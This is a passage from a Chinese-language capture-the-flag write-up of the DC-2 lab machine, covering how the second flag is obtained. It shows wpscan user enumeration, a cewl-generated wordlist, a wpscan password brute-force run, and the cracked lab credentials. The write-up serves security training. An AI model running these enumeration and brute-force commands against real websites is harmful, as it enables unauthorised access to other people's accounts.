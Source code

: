   

![](https://pic3.zhimg.com/80/v2-c44dd0fa607494643ca268c4da55f9f2_720w.webp)

  

翻译过来的意思就是让我们用 `cewl` 来生成一个字典，字典越大越好，然后用一个身份登陆进网站后台我们会得到下一个提示！

## Flag2

既然提示是让我们登陆一个用户到后台，那么我就先来探测一下网站的用户有哪些：

```text
wpscan --url http://dc-2 -e u
```

  

![](https://pic4.zhimg.com/80/v2-3d204fadae56c60186eadcf998891c9f_720w.webp)

  

由上图可知，`wpscan` 探测出来用户由三个：`admin`、`jerry`、`tom`！

随后我用第一个`Flag`的提示，用 KALI 自带的 `cewl` 来对网站页面进行搜集来生成一个字典：

```text
cewl http://dc-2 -w pass
```

  

![](https://pic2.zhimg.com/80/v2-10dbece7bafc18e278877384ece25861_720w.webp)

  

然后我吧刚刚 `wpscan` 探测出来的用户名保存到 user 文件里：

  

![](https://pic4.zhimg.com/80/v2-839b55f8fef2edbe6810dc996136cdeb_720w.webp)

  

一切就绪之后用 `wpscan` 来对用户进行爆破枚举：

```text
wpscan --url http://dc-2 -U user -P pass
```

  

![](https://pic3.zhimg.com/80/v2-92cc2cb23c104458613bb43ecb6701ca_720w.webp)

  

爆破枚举后得到了他们的密码：

```text
Username: jerry, Password: adipiscing
 Username: tom, Password: parturient
```

随后用得到的用户密码登陆到后台获取到了`Flag2`:

```text
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```
